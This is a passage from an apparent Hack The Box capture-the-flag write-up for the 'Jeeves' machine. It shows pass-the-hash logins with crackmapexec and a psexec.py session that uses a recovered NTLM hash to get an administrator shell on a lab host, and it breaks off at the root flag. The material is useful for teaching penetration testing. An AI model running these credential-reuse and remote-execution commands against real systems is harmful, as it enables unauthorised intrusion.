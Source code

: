 ### Pass the hash

The very first entry had a hash which looks like `NTLM` Hash

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

The first part is the `LANMAN` or simply `LM` which is an empty string denoted by the [aad3b435b51404eeaad3b435b51404ee](https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee).

The second part is the `nt` hash

I will attempt to authenticate using the ntlm hash.

Eureka!!!

```
┌─[george@parrot]─[~/HTB/jeeves]
└──╼ $ crackmapexec smb 10.10.10.63 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'                                                                                                    
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

### SHell on the box

I will use `psexec` to get shell on the box

```sh
┌─[george@parrot]─[~/HTB/jeeves]
└──╼ $ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file iNePtify.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service tIPY on 10.10.10.63.....
[*] Starting service tIPY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Root Flag

The root flag had a twist to it. When you list content of the administrator desktop(where we expect it to be) we find `hm.txt`
